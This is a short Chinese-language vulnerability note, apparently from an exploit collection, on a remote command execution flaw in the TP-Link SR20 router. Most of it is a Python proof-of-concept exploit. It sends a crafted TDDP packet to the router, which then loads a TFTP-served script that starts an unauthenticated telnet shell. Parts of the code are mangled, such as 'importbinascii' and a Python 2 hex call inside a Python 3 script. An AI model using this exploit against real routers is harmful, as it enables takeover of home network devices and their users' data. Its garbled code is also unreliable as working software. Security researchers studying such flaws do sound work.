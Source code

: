 # TP-Link SR20 远程命令执行

## 漏洞描述

据外媒报道，著名安全专家、Google 安全工程师Matthew Garrett公开了TP-LINK SR20智能家居路由器一个“允许来自本地网络连接的任意命令执行”的漏洞。攻击者可通过该漏洞控制用户路由器，借此执行任意命令，危及用户隐私安全。

## 漏洞影响

> [!NOTE]
>
> TP-Link SR20

## 漏洞利用POC

```python
#!/usr/bin/python3
# Create /testfile in your tftp root directory with the followingcontents:
#function config_test(config)
# os.execute("telnetd -l/bin/login.sh")
#end
# Replace 192.168.0.1 with the IP address of the vulnerable device
importbinascii
importsocket
port_send = 1040
port_receive = 61000
tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X"% 00
tddp_packet = "".join([tddp_ver, tddp_command, tddp_req,tddp_reply, tddp_padding])
sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(( '', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
packet = packet + b"/testfile;arbitrary"
print(packet)
sock_send.sendto(packet, ( "192.168.0.1", port_send))
sock_send.close()
response, addr = sock_receive.recvfrom( 1024)
r = response.encode( 'hex')
print(r)
```

